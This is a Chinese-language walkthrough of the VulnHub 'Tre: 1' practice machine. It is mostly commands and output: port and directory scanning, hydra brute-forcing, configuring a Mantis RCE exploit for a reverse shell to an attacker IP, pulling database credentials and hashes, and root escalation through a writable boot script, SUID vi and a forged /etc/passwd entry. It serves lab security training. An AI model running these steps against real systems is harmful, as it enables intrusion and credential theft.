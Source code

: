 靶机地址：[Tre: 1 ~ VulnHub](https://www.vulnhub.com/entry/tre-1,483/)
推荐：VMware
Walkthrough

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.58"
sudo nmap -p "22,80,8082" -sV "192.168.1.58"
# 22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
# 80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
# 8082/tcp open  http    nginx 1.14.2
```

先访问80和8082端口的web服务，都是图片，没啥特别的，但是通过源码发现，路径为 `file.jpg`
猜测可能是隐写的文件，试一下，果然是，但是需要密码，暴力破解也失败了
进行web路径扫描
```Shell
sudo dirsearch -u "http://192.168.1.58"
# /cms/
# /adminer.php
# /info.php
# /system
sudo dirsearch -u "http://192.168.1.58:8082"
```
对 `/system` 进行暴力破解
```Shell
hydra -L /home/kali/Tools/Custom/MidPwds.txt -P /home/kali/Tools/Custom/MidPwds.txt -f http-get://192.168.1.58/system
# admin admin
```
登陆后的页面是使用mantis开发的，找一下相关漏洞
```Shell
searchsploit mantis
# Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated) | php/webapps/48818.p
```
发现一个不需要登录就可以远程代码执行的漏洞，拷贝下来看看
需要进行修改
```Python
self.headers = {"Authorization":"Basic YWRtaW46YWRtaW4="}
self.RHOST = "192.168.1.58" # Victim IP
self.RPORT = "80" # Victim port
self.LHOST = "192.168.1.26" # Attacker IP
self.LPORT = "4444" # Attacker Port
self.mantisLoc = "/system" # Location of mantis in URL
```
成功获取到反弹shell，进一步信息收集
```Shell
cat /etc/passwd | grep /bin/bash
# root:x:0:0:root:/root:/bin/bash
# tre:x:1000:1000:tre,,,:/home/tre:/bin/bash
```
尝试切换到用户 `tre`  进一步路径枚举
```Shell
sudo dirsearch -u "http://192.168.1.58/system" --header="Authorization: Basic YWRtaW46YWRtaW4="
# /system/config/
wget http://192.168.1.58/system/config/data.sql --header="Authorization: Basic YWRtaW46YWRtaW4="
```
其中包含账号密码
```
administrator
63a9f0ea7bb98050796b649e85481845    ( root )
```
其它文件
```Shell
wget http://192.168.1.58/system/config/a.txt --header="Authorization: Basic YWRtaW46YWRtaW4="
```
包含如下内容
```
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
```
尝试登录MySQL，或者通过 `/adminer.php` 登录
```Shell
mysql -u mantissuser -D mantis -p
# password@123AS
```
登录成功，`mantis_user_table` 中发现如下数据
```
username         realname         password
administrator    administrator    5f4dcc3b5aa765d61d8327deb882cf99    ( password )
tre              Tr3@123456A!     64c4685f8da5c2225de7890c1bad0d7f    (x)
```
最终发现 `Tr3@123456A!` 就是用户 `tre` 的密码
```Shell
ssh tre@192.168.1.58
# Tr3@123456A!
```
尝试提权
```Shell
sudo -l
# (ALL) NOPASSWD: /sbin/shutdown
find / -user root -type f -perm -o=w 2>/dev/null | grep -v "/proc/" | grep -v "/cgroup/" | grep -v "/kernel/"
# /usr/bin/check-system
cat /usr/bin/check-system
```
内容如下
```Shell
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
```
查看程序执行情况
```Shell
grep -Ri "check-system" /etc 2>/dev/null
# /etc/systemd/system/check-system.service:ExecStart=/bin/bash /usr/bin/check-system
# /etc/systemd/system/multi-user.target.wants/check-system.service:ExecStart=/bin/bash /usr/bin/check-system
```
表示系统重启时会执行此脚本
`vi /usr/bin/check-system` 添加一行指令
```Shell
chmod +s /usr/bin/vi;
```
重启
```Shell
sudo /sbin/shutdown -r now
```
利用
```Shell
ls -l /usr/bin/vi
# lrwxrwxrwx 1 root root 20 May 11  2020 /usr/bin/vi -> /etc/alternatives/vi
ls -l /etc/alternatives/vi
# lrwxrwxrwx 1 root root 17 May 11  2020 /etc/alternatives/vi -> /usr/bin/vim.tiny
ls -l /usr/bin/vim.tiny
# -rwsr-sr-x 1 root root 1200696 Jun 15  2019 /usr/bin/vim.tiny
```
生成密码
```Shell
openssl passwd -1
# 密码: test
```
编辑密码文件  `/usr/bin/vim.tiny /etc/passwd` 添加如下内容
```
tset:$1$/P/jyYVK$ZI7LJu/J6kVDQQec/NwXO1:0:0:root:/root:/bin/bash
```
保存并退出
```
:wq!
```
切换用户
```Shell
su tset
# test
```
提权成功